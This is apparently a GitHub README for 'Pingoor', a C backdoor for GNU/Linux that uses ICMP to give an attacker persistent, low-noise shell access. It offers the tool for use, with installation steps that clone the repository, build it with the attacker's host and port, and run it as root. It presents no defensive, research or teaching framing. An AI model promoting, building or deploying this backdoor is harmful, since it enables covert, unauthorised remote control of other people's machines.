

<h1 align="center">「🚪」About Pingoor</h1>

<p align="center"></p>

<p align="center">Pingoor is a backdoor developed in C for the GNU/Linux operating system. Its main characteristic is to use the ICMP protocol to give the attacker access to the shell of a machine, making its access persistent with little noise.</p>

## Help


## Installation

```
$ git clone https://github.com/MrEmpy/Pingoor.git
$ cd Farllen
$ HOST=<YOURHOST> PORT=<YOURPORT> make
$ sudo ./pingoor
```
